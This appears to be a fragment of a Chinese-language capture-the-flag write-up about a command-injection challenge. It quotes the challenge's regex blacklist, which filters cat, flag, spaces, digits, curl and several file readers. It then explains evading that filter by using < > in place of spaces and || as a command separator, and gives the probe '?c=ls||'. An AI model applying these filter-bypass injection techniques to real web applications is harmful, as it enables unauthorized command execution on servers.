![image-20240120131716785](照片/image-20240120131716785.png)

过滤了

```
"/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%|\x09|\x26/i"
```

天杀的把我的%09和%26过滤掉了

那我们的空格绕过就用<>来绕过，分隔符用||绕过

构建命令查看flag位置

```
?c=ls||
```

![image-20240120132252824](照片/image-20240120132252824.png)
